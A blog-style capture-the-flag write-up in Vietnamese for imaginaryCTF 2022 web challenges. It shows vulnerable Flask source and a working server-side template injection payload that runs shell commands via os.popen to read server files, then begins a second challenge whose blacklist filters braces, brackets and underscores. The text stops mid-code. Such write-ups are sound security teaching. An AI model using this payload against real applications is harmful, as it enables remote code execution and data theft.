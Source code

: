 ```yaml
---
title: imaginaryCTF 2022
description: Web challenge write up in imaginaryCTF 2022 
summary: Write up of some Web challenge
cover: ./cover.jpg
published: '2022-07-19T22:00:00.000+08:00'
updated: '2022-07-19T12:00:00.000+08:00'
tags:
  - [ ctf ]
---
```


# SSTI Golf

Đề bài cho thẳng source có lỗi SSTI như sau

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Check param `query` tại `/ssti` và giới hạn độ dài là 48. Bài này thì easy rồi nên mình cho thẳng payload mình hay dùng.

```python
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![image](https://user-images.githubusercontent.com/75429369/179644681-16ad9d92-6c4c-4e2f-896a-46d4e4f950a8.png)

# minigolf

Một bài SSTI khác nhưng lần này khó hơn ở chỗ tác giả đã filter thêm một số ký tự `{{` `[` `_`

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
```